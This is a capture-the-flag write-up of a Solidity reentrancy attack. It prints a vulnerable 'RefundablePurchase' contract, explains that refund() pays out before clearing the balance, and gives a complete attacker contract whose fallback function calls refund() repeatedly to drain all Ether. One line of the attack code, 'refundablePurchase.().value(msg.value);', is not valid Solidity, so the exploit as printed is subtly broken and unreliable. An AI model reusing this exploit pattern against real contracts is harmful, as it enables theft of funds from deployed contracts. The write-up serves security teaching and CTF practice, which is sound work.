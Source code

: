 # Refundable Purchase

![](./brief.png)

# Solution

Like the previous Smart Contract challenge we were provided with the source for a contract. The aim of the challenge was to drain the contract of all its Ether.

```solidity
pragma solidity ^0.4.24;

contract RefundablePurchase {

    event Refund(address, uint256);
    event PurchaseCompleted(address, uint256);

    address owner;

    mapping (address => uint256) public refunds;

    constructor() public payable {
        require(msg.value == 0.5 ether, "Must send 0.5 Ether");
    }

    /** Fallback function, called when contract receives Ether without data
     */
    function () external payable {
        require(refunds[msg.sender] + msg.value > refunds[msg.sender]); // Overflow guard
        refunds[msg.sender] += msg.value;
    }

    /** Refunds sent Ether
     */
    function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
    }

    /** Call this function once you've received your purchased item
     */
    function completePurchase() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        refunds[msg.sender] = 0;
        emit PurchaseCompleted(msg.sender, amount);
    }

    /** Returns balance of this contract
     */
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    /** CTF helper function
     *  Used to check if challenge is complete
     */
    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

}
```

The vulnerable line can be seen in the ```refund()``` method:

```solidity
function refund() public {
        require(refunds[msg.sender] > 0);
        uint256 amount = refunds[msg.sender];
        msg.sender.call.value(amount)("");
        refunds[msg.sender] = 0;
        emit Refund(msg.sender, amount);
}
```

The line below is the key element of the potential exploit:

```solidity
msg.sender.call.value(amount)("");
```

This is where we can exploit this contract. This line sends the refunded Ether to the address to the calling address. However, what if the return address is an Ethereum contract? This will trigger the fallback function of the contract. In Solidity smart contracts any funds send to a contract without any data will be processed by the **fallback** address (if defined).

We can also see that the contract values are updated after the external call with:

```solidity
refunds[msg.sender] = 0;
```

We can use the concept of fallback function on a contract we control to call the refund method again and withdraw more Ether than we have been assigned! We can repeat this as many times are we want to completely drain the contract.

Below is the malicious contract used:

```solidity
pragma solidity ^0.4.24;

import "./challenge2.sol";

contract HackContract {

    RefundablePurchase public refundablePurchase;

    constructor (address _refundablePurchase) payable {
        refundablePurchase = RefundablePurchase(_refundablePurchase);
    }

    function start () {
        refundablePurchase.().value(msg.value);
        refundablePurchase.refund();
    }

    function () payable {
    if (refundablePurchase.balance >= msg.value) {
        refundablePurchase.refund();
    }
  }
}
```

The contract is constructed using the address to the target contract defined as ```refundablePurchase```.

The ```start()``` method is where the exploit will begin.

```solidity
function start () {
    refundablePurchase.().value(msg.value);
    refundablePurchase.refund();
}
```

It begins by sending some funds to pass the inital funds to pass the check of the RefundPurchase ```refund()``` function.

```solidity
function refund() public {
    require(refunds[msg.sender] > 0);
    [...]
```

It then calls the ```refund()``` function and starts the loop. The ```refund()``` function sends the refund back to the contract that then triggers the fallback function below:

```solidity
function () payable {
if (refundablePurchase.balance >= msg.value) {
    refundablePurchase.refund();
}
```

The fallback function checks if the contract has any funds left. If there are more funds to steal the method will call the ```refund()``` function again to repeat the process.

This was executed using Remix to upload the contracts to the Ropsten test network. When executing this it drains the contract of all its funds and completes the challenge to provide the flag

```
FLAG: flag{c411_15_n0t_s4f3_w1th_n0_g45_1imit}
```